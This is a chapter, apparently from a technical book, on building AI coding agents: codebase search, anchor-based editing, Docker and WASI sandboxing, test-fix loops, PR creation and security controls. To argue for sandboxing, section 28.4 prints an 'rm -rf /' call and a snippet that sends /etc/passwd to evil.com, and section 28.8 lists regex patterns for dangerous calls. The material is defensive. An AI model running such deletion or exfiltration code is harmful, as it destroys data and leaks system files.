


# Chapter 28: Agentic Coding

> **Agentic Coding isn't an upgraded version of code completion -- it's about enabling Agents to understand codebases like developers, plan implementations, write code, run tests, and fix bugs. It requires understanding the entire codebase structure, not just the current file -- this is true "autonomous programming," and also the ultimate test of sandbox security.**

---

> **Quick Track** (Master the core in 5 minutes)
>
> 1. From "complete the current line" to "understand the entire codebase," the key difference is global context
> 2. Code understanding trio: AST structure parsing, dependency graph construction, semantic search
> 3. All code execution must be in a sandbox; WASI provides file/network/process isolation
> 4. Edit-Test-Fix loop: modify code -> run tests -> see failures -> fix again
> 5. Security boundaries are the bottom line: write operations must restrict directories, execution must have timeouts
>
> **10-Minute Path**: 28.1-28.2 -> 28.4 -> Shannon Lab

---

It's 2 AM, and you're woken by an alert: production API response times have spiked.

You open your computer and find the issue came from a recent deployment. The problem is localized to one function, but fixing it requires understanding its interactions with three other modules. Half-asleep, you modify the code, run tests, and discover your change broke another feature...

Now imagine: you just need to tell an Agent "this API is too slow, help me optimize it," and it:
1. Analyzes the entire call chain, finds the performance bottleneck
2. Understands dependencies between related modules
3. Generates fix code
4. Runs tests in a sandbox to confirm the fix works
5. Submits a PR with detailed change notes

This is the vision of Agentic Coding. Not helping you complete a line of code, but helping you complete an entire development task.

But vision aside, this is extremely difficult in practice. Code isn't isolated text -- it has structure, dependencies, and side effects. Code written by an Agent must run, run correctly, and not crash the system.

In this chapter, we'll break down the core challenges and implementation paths for Agentic Coding.

---

## 28.1 What is Agentic Coding

### From Code Completion to Autonomous Programming

First, let's clarify a misconception: Agentic Coding is not an upgraded Copilot.

| Dimension | Code Completion (Copilot) | Agentic Coding |
|-----------|---------------------------|----------------|
| Scope | Current cursor position | Entire codebase |
| Context understanding | Current file | Cross-file dependencies |
| Decision authority | Human decides what to write | Agent decides what to write |
| Execution capability | None | Can run code, tests |
| Iteration capability | None | Can modify based on feedback |

Code completion is "you think of where, it helps you type there." Agentic Coding is "you say what you want, it helps you implement it."

A complete Agentic Coding flow:

```
User: "Add email verification to the user service"
         |
         v
+-------------------+
| 1. Understand requirements |  - Parse task goal
| 2. Analyze codebase        |  - Find relevant files and functions
| 3. Plan implementation     |  - Design modification approach
| 4. Write code              |  - Generate new/modify existing code
| 5. Run tests               |  - Verify in sandbox
| 6. Iterate fixes           |  - Adjust based on test results
| 7. Submit changes          |  - Generate PR/commit
+-------------------+
```



### Core Capability Breakdown

Agentic Coding requires the coordination of these capabilities:

| Capability | Description | Corresponding Tools |
|------------|-------------|---------------------|
| **Code understanding** | Parse code structure, dependencies | AST analysis, semantic search |
| **Code navigation** | Cross-file jumping, find definitions | LSP, grep/ripgrep |
| **Code generation** | Write new code, modify existing | LLM + editing tools |
| **Code execution** | Run code in isolated environment | Docker/WASI sandbox |
| **Test verification** | Run tests, analyze results | Test framework integration |
| **Version control** | Manage code changes | Git operations |

---

## 28.2 Codebase Understanding: Not Just Reading Files

The first step of Agentic Coding is understanding the codebase. This sounds simple, but is actually one of the hardest parts.

### Why Is It Hard?

A medium-sized codebase might have:
- 10,000+ files
- 500,000+ lines of code
- Complex module dependencies
- Implicit call chains

You can't stuff the entire codebase into an LLM's context window (even 1M tokens isn't enough). You must strategically select relevant code.

### Code Indexing Strategy

In Shannon, file operation tools have clear read limits and scope controls:

```python
# Excerpt from python/llm-service/llm_service/tools/builtin/file_ops.py

class FileReadTool(Tool):
    """Safe file reading tool with sandboxing support"""

    def _get_parameters(self) -> List[ToolParameter]:
        return [
            ToolParameter(
                name="path",
                type=ToolParameterType.STRING,
                description="Path to the file to read",
                required=True,
            ),
            ToolParameter(
                name="max_size_mb",
                type=ToolParameterType.INTEGER,
                description="Maximum file size in MB to read",
                required=False,
                default=10,
                min_value=1,
                max_value=100,
            ),
        ]

    async def _execute_impl(self, **kwargs) -> ToolResult:
        # ... validation logic omitted ...

        # Allowlist of readable directories
        allowed_dirs = [Path("/tmp").resolve(), Path.cwd().resolve()]
        workspace = os.getenv("SHANNON_WORKSPACE")
        if workspace:
            allowed_dirs.append(Path(workspace).resolve())

        # Ensure path is within an allowed directory
        if not any(_is_allowed(path_absolute, base) for base in allowed_dirs):
            return ToolResult(
                success=False,
                output=None,
                error=f"Reading {path_absolute} is not allowed. Use workspace or /tmp directory.",
            )
```

Core design points:
- `max_size_mb` limit: Prevents reading oversized files at once
- `allowed_dirs` whitelist: Only allows reading workspace and temp directories
- Path normalization: Prevents symlink escapes

### Semantic Search vs Keyword Search

There are two ways to find relevant code:

| Method | Use Case | Limitation |
|--------|----------|------------|
| **Keyword search** (grep) | Find function names, variable names, error messages | Can't find "intent-related" code |
| **Semantic search** (embedding) | Find "code that handles user authentication" | Requires pre-built vector index |

Best practice is combining both:

```python
# Conceptual Example: Hybrid Search Strategy

class CodeSearcher:
    """Codebase searcher"""

    def search(self, query: str) -> List[CodeChunk]:
        # 1. Extract potential identifiers
        identifiers = self.extract_identifiers(query)

        # 2. Keyword search (fast, precise)
        keyword_results = []
        for ident in identifiers:
            keyword_results.extend(self.grep_search(ident))

        # 3. Semantic search (slow, fuzzy)
        semantic_results = self.vector_search(query)

        # 4. Merge, dedupe, rank by relevance
        return self.merge_and_rank(keyword_results, semantic_results)
```

### Dependency Graph Construction

Understanding code isn't just finding files -- it requires understanding dependencies between modules:

```python
# Conceptual Example: Dependency Analysis

class DependencyAnalyzer:
    """Analyze dependencies between modules"""

    def build_dependency_graph(self, entry_file: str) -> DependencyGraph:
        """Build dependency graph from entry file"""
        graph = DependencyGraph()
        visited = set()

        def visit(file_path: str):
            if file_path in visited:
                return
            visited.add(file_path)

            # Parse file, extract import/require statements
            imports = self.parse_imports(file_path)

            for imp in imports:
                resolved = self.resolve_import(file_path, imp)
                if resolved:
                    graph.add_edge(file_path, resolved)
                    visit(resolved)

        visit(entry_file)
        return graph

    def find_affected_files(self, modified_file: str) -> List[str]:
        """Find all files that might be affected by modifying a file"""
        return self.graph.get_dependents(modified_file)
```

---

## 28.3 Code Generation and Editing

### Two Editing Modes

Agents can modify code in two ways:

| Mode | Description | Use Case | Risk |
|------|-------------|----------|------|
| **Full rewrite** | Generate complete file to replace original | New files, small files | May lose unrelated changes |
| **Precise editing** | Only modify specific lines/blocks | Large files, local changes | Requires precise positioning |

Shannon's file write tool uses a safe overwrite mode:

```python
# Excerpt from python/llm-service/llm_service/tools/builtin/file_ops.py

class FileWriteTool(Tool):
    """Safe file writing tool with sandboxing support"""

    def _get_metadata(self) -> ToolMetadata:
        return ToolMetadata(
            name="file_write",
            description="Write content to a file",
            requires_auth=True,  # Writing requires auth
            sandboxed=True,
            dangerous=True,  # File writing is potentially dangerous
            cost_per_use=0.001,
        )

    def _get_parameters(self) -> List[ToolParameter]:
        return [
            ToolParameter(
                name="mode",
                type=ToolParameterType.STRING,
                description="Write mode: 'overwrite' replaces existing file, 'append' adds to end",
                required=False,
                default="overwrite",
                enum=["overwrite", "append"],
            ),
            ToolParameter(
                name="create_dirs",
                type=ToolParameterType.BOOLEAN,
                description="Create parent directories if they don't exist",
                required=False,
                default=False,
            ),
        ]
```

Note the key markers:
- `requires_auth=True`: File writing requires authorization
- `dangerous=True`: File writing is potentially dangerous
- `sandboxed=True`: Restricted to sandbox directories

### Challenges of Precise Editing

When an Agent needs to modify several lines in a large file, these issues can arise:

1. **Line number drift**: If there were previous changes, line numbers shift
2. **Context mismatch**: The code in Agent's memory differs from the actual file
3. **Indentation errors**: Generated code indentation doesn't match original file

Solution: use anchors instead of line numbers:

```python
# Conceptual Example: Anchor-Based Precise Editing

class CodeEditor:
    """Anchor-based code editor"""

    def apply_edit(
        self,
        file_path: str,
        anchor_before: str,  # Unique text before modification point
        anchor_after: str,   # Unique text after modification point
        new_content: str,    # New content
    ) -> EditResult:
        """
        Insert/replace content between anchors

        Example:
        anchor_before = "def calculate_total("
        anchor_after = "    return total"
        new_content = "    # Add validation\n    if not items:\n        return 0\n"
        """
        content = self.read_file(file_path)

        # Find anchor positions
        start = content.find(anchor_before)
        end = content.find(anchor_after)

        if start == -1 or end == -1:
            return EditResult(success=False, error="Anchor not found")

        # Apply edit
        new_content = (
            content[:start + len(anchor_before)]
            + new_content
            + content[end:]
        )

        return self.write_file(file_path, new_content)
```

---

## 28.4 Sandbox Execution: The Most Critical Security Layer

Code generated by Agents must execute in an isolated environment. This is not optional -- it's mandatory.

### Why Must There Be a Sandbox?

Imagine an Agent generates code like this:

```python
import os
os.system("rm -rf /")  # Delete entire filesystem
```

Or more subtle:

```python
import requests
data = open("/etc/passwd").read()
requests.post("https://evil.com/collect", data=data)
```

Without a sandbox, this code would actually execute on your server.

### Sandbox Options

| Technology | Isolation Level | Startup Speed | Complexity | Use Case |
|------------|-----------------|---------------|------------|----------|
| **Docker** | Process-level | Seconds | Medium | General scenarios |
| **WASI** | Bytecode-level | Milliseconds | High | Trusted code |
| **gVisor** | Syscall-level | Seconds | High | High security needs |
| **Firecracker** | VM-level | Hundred milliseconds | Medium | Production environments |

Shannon chooses WASI as the primary sandbox mechanism, as explained in the architecture documentation. WASI's advantages are:
- Ultra-fast startup (milliseconds)
- Fine-grained capability control (filesystem, network, time, etc.)
- Small resource footprint

### Docker Sandbox Implementation

For general scenarios, Docker is the easiest to implement:

```python
# Conceptual Example: Docker Sandbox Execution

import docker
import tempfile
import os

class DockerSandbox:
    """Docker sandbox executor"""

    def __init__(self):
        self.client = docker.from_env()

    async def execute(
        self,
        code: str,
        language: str,
        timeout_seconds: int = 30,
        memory_limit: str = "256m",
        network_disabled: bool = True,
    ) -> ExecutionResult:
        """Execute code in Docker sandbox"""

        # 1. Create temporary working directory
        with tempfile.TemporaryDirectory() as work_dir:
            # 2. Write code file
            code_file = os.path.join(work_dir, f"main.{self._get_extension(language)}")
            with open(code_file, "w") as f:
                f.write(code)

            # 3. Select image and command
            image, cmd = self._get_runtime(language)

            # 4. Run container
            try:
                container = self.client.containers.run(
                    image=image,
                    command=cmd,
                    volumes={work_dir: {"bind": "/workspace", "mode": "rw"}},
                    working_dir="/workspace",
                    mem_limit=memory_limit,
                    network_disabled=network_disabled,  # Disable network
                    read_only=True,  # Read-only filesystem
                    detach=True,
                    user="nobody",  # Non-root user
                )

                # 5. Wait for completion, get output
                result = container.wait(timeout=timeout_seconds)
                logs = container.logs().decode("utf-8")

                return ExecutionResult(
                    success=result["StatusCode"] == 0,
                    output=logs,
                    exit_code=result["StatusCode"],
                )

            except docker.errors.ContainerError as e:
                return ExecutionResult(
                    success=False,
                    output=str(e),
                    exit_code=-1,
                )
            finally:
                try:
                    container.remove(force=True)
                except:
                    pass
```

Key security configurations:
- `network_disabled=True`: Disable network access
- `read_only=True`: Read-only filesystem
- `mem_limit`: Memory limit
- `user="nobody"`: Non-privileged user

---

## 28.5 Test-Driven Iteration Loop

Agentic Coding doesn't end after one generation. The Agent needs to run tests, analyze errors, and iterate fixes.

### Test-Fix Loop

```
+------------------+
|  Generate Code   |
+--------+---------+
         |
         v
+------------------+
|   Run Tests      |
+--------+---------+
         |
    Test Result?
   /          \
  Pass        Fail
   |            |
   v            v
+--------+  +------------------+
|  Done  |  |  Analyze Error   |
+--------+  +--------+---------+
                     |
                     v
            +------------------+
            | Generate Fix Code|
            +--------+---------+
                     |
                     +----> Back to "Run Tests"
```



### Error Analysis and Fixing

The Agent needs to understand why tests failed:

```python
# Conceptual Example: Test Error Analysis

class TestErrorAnalyzer:
    """Analyze test errors and generate fix suggestions"""

    def analyze(self, test_output: str, code_context: str) -> ErrorAnalysis:
        """Analyze test output, generate fix suggestions"""

        # 1. Extract error type and location
        error_info = self.parse_error(test_output)

        # 2. Prepare LLM prompt
        prompt = f"""
Analyze the following test failure and provide a fix.

## Test Output
{test_output}

## Related Code
{code_context}

## Error Information
Type: {error_info.type}
Location: {error_info.location}
Message: {error_info.message}

Please analyze:
1. What is the root cause?
2. Which parts of which files need modification?
3. What is the specific fix code?

Output format (JSON):
{{
    "root_cause": "Root cause analysis",
    "affected_files": ["file1.py", "file2.py"],
    "fixes": [
        {{
            "file": "file1.py",
            "anchor_before": "def problematic_function(",
            "anchor_after": "return result",
            "new_code": "Fixed code"
        }}
    ],
    "confidence": 0.85
}}
"""
        # 3. Call LLM
        response = await self.llm.generate(prompt)
        return self.parse_analysis(response)
```

### Preventing Dead Loops

Agents can get stuck in "fixing A breaks B, fixing B breaks A" cycles.

```python
# Conceptual Example: Fix Loop Detection

class FixLoopDetector:
    """Detect fix loops"""

    def __init__(self, max_iterations: int = 5):
        self.max_iterations = max_iterations
        self.fix_history: List[str] = []

    def should_continue(self, current_fix: str) -> bool:
        """Determine if fixing should continue"""

        # 1. Exceeded max iterations
        if len(self.fix_history) >= self.max_iterations:
            return False

        # 2. Detect similar fixes (possible loop)
        fix_hash = self.hash_fix(current_fix)
        if fix_hash in [self.hash_fix(f) for f in self.fix_history[-3:]]:
            # Similar fix in last 3 attempts, might be in loop
            return False

        self.fix_history.append(current_fix)
        return True
```

---

## 28.6 Version Control Integration

The output of Agentic Coding is typically a Git commit or Pull Request.

### Auto-Generating Commit Messages

Agents should be able to generate meaningful commit messages based on code changes:

```python
# Conceptual Example: Generate Commit Message

async def generate_commit_message(diff: str, task_description: str) -> str:
    """Generate commit message based on code changes"""

    prompt = f"""
Generate a Git commit message based on the following code changes.

## Task Description
{task_description}

## Code Changes (git diff)
{diff[:4000]}  # Limit length

## Requirements
1. Use Conventional Commits format (feat/fix/refactor/...)
2. First line no more than 72 characters
3. Describe "why" not "what"
4. If there are breaking changes, explain in footer

Output commit message:
"""
    return await llm.generate(prompt)
```

### Creating Pull Requests

Complete code changes should be submitted via PR for human review:

```python
# Conceptual Example: Create PR

class PRCreator:
    """Create Pull Request"""

    async def create_pr(
        self,
        repo: str,
        branch: str,
        title: str,
        changes: List[FileChange],
        tests_passed: bool,
    ) -> PRResult:
        """Create PR with detailed description"""

        # 1. Create branch and commit changes
        await self.git.create_branch(branch)
        for change in changes:
            await self.git.apply_change(change)
        await self.git.commit(await self.generate_commit_message())
        await self.git.push(branch)

        # 2. Generate PR description
        description = await self.generate_pr_description(
            changes=changes,
            tests_passed=tests_passed,
        )

        # 3. Create PR
        pr = await self.github.create_pull_request(
            title=title,
            body=description,
            head=branch,
            base="main",
        )

        return PRResult(pr_url=pr.url, pr_number=pr.number)
```

---

## 28.7 Multi-Model Collaboration

Complex coding tasks may require collaboration between different models.

### Model Division of Labor

Shannon's model configuration shows the positioning of different models:

```yaml
# Excerpt from config/models.yaml
model_capabilities:
  coding_specialists:
    - codestral-22b-v0.1      # Coding-optimized model
    - deepseek-v3.2           # Strong code capabilities
    - claude-sonnet-4-5-20250929  # General + code
    - gpt-5-pro-2025-08-07    # Heavy reasoning
    - gpt-5.1                 # Strongest general
```

Different tasks can use different models:

| Task Type | Recommended Model Tier | Reason |
|-----------|------------------------|--------|
| Code search/navigation | Small | Doesn't need complex reasoning |
| Simple code generation | Medium (coding specialist) | Specifically optimized |
| Architecture design/refactoring | Large (reasoning) | Needs deep thinking |
| Test case generation | Medium | Pattern-based work |
| Bug analysis | Large | Needs to understand complex interactions |

### Routing Strategy

```python
# Conceptual Example: Coding Task Model Routing

class CodingModelRouter:
    """Select model based on task type"""

    def select_model(self, task_type: str, code_complexity: str) -> str:
        routing_rules = {
            # (task_type, complexity) -> model tier
            ("search", "any"): "small",
            ("generate", "simple"): "medium",
            ("generate", "complex"): "large",
            ("refactor", "any"): "large",
            ("test_gen", "any"): "medium",
            ("bug_fix", "simple"): "medium",
            ("bug_fix", "complex"): "large",
        }

        tier = routing_rules.get(
            (task_type, code_complexity),
            routing_rules.get((task_type, "any"), "medium")
        )

        return self.get_model_for_tier(tier)
```

---

## 28.8 Security Considerations

Agentic Coding involves code execution, making security risks extremely high.

### Risk Matrix

| Risk | Description | Severity | Mitigation |
|------|-------------|----------|------------|
| **Code injection** | Agent generates malicious code | High | Sandbox execution |
| **Data leakage** | Code reads sensitive data and exfiltrates | High | Network isolation |
| **Resource exhaustion** | Infinite loops consume resources | Medium | Timeout and resource limits |
| **Supply chain attack** | Installing malicious dependencies | High | Dependency whitelist |
| **Privilege escalation** | Exploiting vulnerabilities for higher privileges | High | Least privilege principle |

### Sensitive Operations Need Approval

```python
# Conceptual Example: Sensitive Operation Detection

SENSITIVE_PATTERNS = [
    r"os\.system",
    r"subprocess\.",
    r"eval\(",
    r"exec\(",
    r"__import__",
    r"open\([^)]*['\"](\/etc|\/root|\/home)",
    r"requests\.(get|post|put|delete)",
    r"socket\.",
    r"rm\s+-rf",
    r"DROP\s+TABLE",
]

def check_code_safety(code: str) -> List[SecurityWarning]:
    """Check for potentially dangerous operations in code"""
    warnings = []

    for pattern in SENSITIVE_PATTERNS:
        matches = re.findall(pattern, code, re.IGNORECASE)
        if matches:
            warnings.append(SecurityWarning(
                pattern=pattern,
                matches=matches,
                risk_level="high",
            ))

    return warnings
```

### Human Approval Checkpoints

Certain operations must go through human approval:

```python
# Conceptual Example: Operations Requiring Human Approval

REQUIRES_APPROVAL = [
    "modify_production_config",  # Modify production config
    "delete_files",              # Delete files
    "install_dependencies",      # Install new dependencies
    "modify_security_rules",     # Modify security rules
    "access_secrets",            # Access secrets
]

async def execute_with_approval(operation: str, details: dict) -> bool:
    """Execute operation requiring approval"""

    if operation in REQUIRES_APPROVAL:
        approval = await request_human_approval(
            operation=operation,
            details=details,
            risk_assessment=assess_risk(operation, details),
        )

        if not approval.approved:
            return False

    return await execute_operation(operation, details)
```

---

## 28.9 Common Pitfalls

### Pitfall 1: Context Window Overflow

Agent tries to stuff the entire codebase into the prompt.

```python
# Wrong: Read all files
all_code = ""
for file in repo.get_all_files():
    all_code += read_file(file)  # May exceed context limit

# Right: Retrieve relevant code on demand
relevant_files = search_relevant_code(task_description)
context = summarize_large_files(relevant_files[:10])
```

### Pitfall 2: Test Pollution

Agent modifies test data or tests themselves, causing tests to "pass" but actual code has problems.

```python
# Solution: Isolate test environment

class TestIsolation:
    def run_tests(self, code_changes: List[Change]) -> TestResult:
        # 1. Create isolated test environment
        with TemporaryTestEnvironment() as env:
            # 2. Apply code changes (not including test files)
            for change in code_changes:
                if not self.is_test_file(change.file):
                    env.apply_change(change)

            # 3. Use original test files
            env.copy_tests_from_main()

            # 4. Run tests
            return env.run_tests()
```

### Pitfall 3: Dependency Hell

Agent adds dependencies arbitrarily, causing dependency conflicts or security issues.

```python
# Solution: Dependency whitelist

APPROVED_DEPENDENCIES = {
    "python": ["requests", "numpy", "pandas", ...],
    "javascript": ["lodash", "axios", ...],
}

def validate_dependency(language: str, package: str) -> bool:
    if package not in APPROVED_DEPENDENCIES.get(language, []):
        raise DependencyNotApproved(
            f"Package '{package}' not in approved list. "
            f"Request approval before adding."
        )
    return True
```

### Pitfall 4: Git State Confusion

Agent operates in a dirty Git state, causing change confusion.

```python
# Solution: Ensure clean state before operating

async def ensure_clean_state():
    status = await git.status()
    if status.has_changes:
        # Stash current changes
        await git.stash()
        return GitStateGuard(stashed=True)
    return GitStateGuard(stashed=False)

# Usage
async with ensure_clean_state():
    await agent.apply_changes()
```

---

## 28.10 Recap

1. **Agentic Coding Definition**: Not code completion, but end-to-end autonomous programming capability
2. **Codebase Understanding**: Mix keyword search and semantic search, retrieve relevant code on demand
3. **Sandbox Execution**: Code generated by Agents must run in isolated environments -- Docker or WASI
4. **Test-Driven Iteration**: Loop of running tests, analyzing errors, fixing code
5. **Multi-Layer Security**: Code review, sensitive operation approval, resource limits

---

## Shannon Lab (10-Minute Quickstart)

This section helps you map this chapter's concepts to Shannon source code in 10 minutes.

### Required Reading (1 file)

- `python/llm-service/llm_service/tools/builtin/file_ops.py`: Sandbox design for file read/write tools

### Optional Deep Dives (2, pick by interest)

- `config/models.yaml` under `coding_specialists`: Understand models specifically optimized for coding capability
- `docs/multi-agent-workflow-architecture.md`: Understand how to integrate Coding Agent into multi-Agent systems

---

## Exercises

### Exercise 1: Design a Dependency Checker

Design a system that, when an Agent attempts to install a new dependency:
1. Checks if the dependency is in the whitelist
2. Checks the dependency's security rating (can use snyk or npm audit)
3. If not in whitelist, requests human approval

### Exercise 2: Implement Code Search

Implement a hybrid searcher supporting:
1. Keyword search (grep)
2. Function/class name search (AST)
3. Semantic search (embedding)

For the query "find code that handles user login," design the search strategy.

### Exercise 3 (Advanced): Test Isolation

Design a test isolation system:
1. Agent can only modify source code, not test code
2. Tests run in isolated environment with independent database/filesystem
3. Prevent Agent from "passing" tests by modifying test data

---

## Further Reading

- **Docker SDK for Python** - https://docker-py.readthedocs.io/
- **Tree-sitter** (code parsing) - https://tree-sitter.github.io/
- **Aider** (open-source AI coding tool) - https://aider.chat/

---

## Next Chapter Preview

Agentic Coding is typically a user-initiated interactive task. But some programming tasks need scheduled execution and background running.

The next chapter covers **Background Agents** -- enabling Agents to run continuously in the background, handling scheduled tasks, monitoring alerts, and auto-repairs.

Users don't need to be online for Agents to work. But this brings new challenges: without real-time human supervision, how do you ensure Agent behavior stays controlled? When something goes wrong after 8 hours of running, how do you trace and recover?

Moreover, background tasks need persistent state -- if the service restarts, tasks can't be lost. This requires a workflow engine.

In the next chapter, we'll look at how Shannon implements reliable Background Agents using Temporal.

Ready? Let's continue.
